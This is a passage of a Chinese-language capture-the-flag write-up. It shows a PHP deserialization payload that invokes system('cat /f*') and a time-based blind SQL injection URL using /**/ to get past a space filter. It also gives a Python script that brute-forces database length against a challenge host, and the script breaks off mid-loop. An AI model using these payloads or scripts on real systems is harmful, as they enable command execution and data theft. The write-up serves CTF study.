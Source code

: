 运行结果

```php
a:2:{i:0;O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:7:"cat /f*";}}}}}i:1;N;}
```

**将最后的`i:1`改为`i"0`即可，得到flag**
 ![在这里插入图片描述](assets/21976b337fc54dff939ff189f2c4ff2c.png)

### midsql(时间盲注)

> 考点：时间盲注

fuzz测试一下，发现只过滤了空格，用/**/替换
 然后测试，发现可以时间盲注

```
?id=1/**/and/**/(1,sleep(5),3)#
```

脚本如下

```python
import requests
import time

chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz,}{-'
database = ''
table = ''
column = ''
flag = ''

global DB_length
global TB_length
global CL_length

#爆数据库
for l in range(1,20):
    Url = 'http://aa747dea-4776-4d4f-9c3f-6846c5f580aa.node4.buuoj.cn:81/?id=1/**/and/**/if(length(database())>{0},1,sleep(3))#'
    UrlFormat = Url.format(l)      #format（）函数使用
    start_time0 = time.time()  		#发送请求前的时间赋值
    requests.get(UrlFormat)
    if  time.time() - start_time0 > 2:	#判断正确的数据库长度
            print('database长度为：' + str(l))
            global DB_length 
            DB_length = l	#把数据库长度赋值给全局变量
            break
    else:
        pass
for i in range(1,DB_length+1):
```